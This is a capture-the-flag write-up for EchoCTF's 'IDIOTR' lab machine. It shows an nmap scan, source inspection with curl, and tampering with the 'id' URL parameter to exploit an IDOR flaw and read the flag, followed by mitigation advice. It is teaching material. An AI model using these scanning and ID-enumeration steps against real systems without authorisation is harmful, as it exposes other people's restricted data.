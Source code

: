 # **IDIOTR**

![idiotr1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr1.png)

## **Introduction**

The **IDIOTR** machine from **EchoCTF** presents a web challenge that hides a single flag, which can be obtained by exploiting an **IDOR (Insecure Direct Object References)** vulnerability. This type of vulnerability allows access to restricted resources by manipulating URL parameters.

**IP:** `10.0.41.2`

---

## **Reconnaissance and Scanning**

We began reconnaissance on the **IDIOTR** machine using **Nmap**. The command used was:

```bash
nmap -sSC -vv -p- 10.0.41.2
```

**Result:**
```
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack ttl 63
```

Port **1337** is open. When connecting to IP `10.0.41.2` on that port via HTTP, we get a simple webpage with a navigation menu containing sections like *Home*, *About*, *Blogs*, and *Secret*.

![iditr2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr2.png)

---

## **Source Code Inspection**

We used `curl` to check the source code of the website from the terminal:

```bash
curl http://10.0.41.2:1337/
```

In the source, we see this navigation structure:

```html
<a class="nav-link" href="/">Home</a>
<li class="nav-item active">
  <a class="nav-link" href="/?id=2">About</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=3">Blogs</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=4">Secret</a>
</li>
```

This shows the site uses the `id` parameter to display content, which is a typical sign of an **IDOR**. The listed IDs go from `2` to `4`.

---

## **IDOR Exploitation**

We attempted to locate the flag by using `curl` and `grep` to search for the "ETSCTF" pattern:

```bash
curl http://10.0.41.2:1337/?id=4 | grep "ETSCTF"
```

After trying `id=2` through `id=4` with no success, we tested `id=1`:

```bash
curl http://10.0.41.2:1337/?id=1 | grep "ETSCTF"
```

**Response:**
``` shell 
<p>Now You know why its called Insecure Direct Object Reference ETSCTF_:DDDDDDDDDDDDDDDDDDDDDD</p>
```

This confirms the `id` parameter is not properly validated and allows access to sensitive data.

---

## **Vulnerability Identification**

The vulnerability identified is **IDOR (Insecure Direct Object Reference)**. It occurs when applications allow access to internal objects by manipulating parameters (like `id=1`, `id=2`, etc.) without verifying user permissions.

This enables attackers to obtain unauthorized access to sensitive content just by guessing or modifying the values.

---

## **Mitigation Measures**

To prevent IDOR vulnerabilities, the following best practices should be applied:

- **Object-level access control:** Always check if the user is authorized to access a resource, even if the request seems valid.

- **Parameter validation:** All URL parameters must be strictly validated before use.

- **Unpredictable identifiers:** Avoid sequential IDs. Use UUIDs or other non-guessable schemes.

- **Logging and alerts:** Monitor access to sensitive parameters and alert on suspicious access patterns, such as probing multiple IDs.

```c
Writeup Made With ❤️ By SheepsStealer
```